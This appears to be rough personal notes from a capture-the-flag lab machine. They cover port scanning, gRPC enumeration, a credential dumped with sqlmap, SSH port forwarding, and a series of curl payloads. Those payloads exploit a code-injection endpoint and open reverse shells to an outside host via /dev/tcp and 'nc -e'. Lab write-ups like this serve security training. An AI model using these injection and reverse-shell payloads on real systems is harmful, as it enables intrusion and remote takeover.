 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3      *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207      *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
50051/tcp open  unknown

none o fwhich give us rce

![](20230618140630.png)

└─$ gobuster dir --url http://10.10.11.214:50051 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.214:50051
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/18 19:19:36 Starting gobuster in directory enumeration mode
===============================================================

Error: error on running gobuster: unable to connect to http://10.10.11.214:50051/: Get "http://10.10.11.214:50051/": net/http: HTTP/1.x transport connection broken: malformed HTTP status code "\x00\xfe\x03\x00\x00\x00\x01\x00\x00\x04\b\x00\x00\x00\x00\x00\x00?\x00\x00"


gobuster not working

https://www.youtube.com/watch?v=fGG7BMS-RZI

rustscan can be better than nmap

50051 is grpc

grpccui

can expose the methods

admin user exists

through sqlmap sau:HereIsYourPassWord1431

sqlmap -r req --batch --dump

ss -tn1

curl http://127.0.0.1:8000


we see that there is website running at 8000
we can port forward

ssh -L 9000:127.0.0.1:8000 sau@10.10.11.214

![](20230618200124.png)


we have an arbitary command execution vuln

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:9000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'
```

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Mon, 19 Jun 2023 00:04:39 GMT
Server: Cheroot/8.6.0

Could not decrypt key   


curl -i -s -k -X $'POST' \
    --data-binary $'jk=%0Apyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B%0Af=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"nc%2010.10.16.24%201234");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.24/1234 0>&1'");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A



curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A
");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'


%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=pyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'


pyimport os;os.system("./tmp/script.sh");f=function f2(){};

pyimport os;os.system("nc 10.10.16.24 1234");
pyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3B

# trying netcat as /dev/tcp doesnot exists

nc -e /bin/sh 10.10.16.24 1234
pyimport%20os;os.system("nc%20-e%20/bin/sh%2010.10.16.24%201234");
pyimport%20os%3Bos.system(%22nc%20-e%20%2Fbin%2Fsh%2010.10.16.24%201234%22)%3B%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jkpyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3Bf=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

### new attempt
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

wwe had to createa  bash.sh at the system

![](20230620002815.png)

pwnd

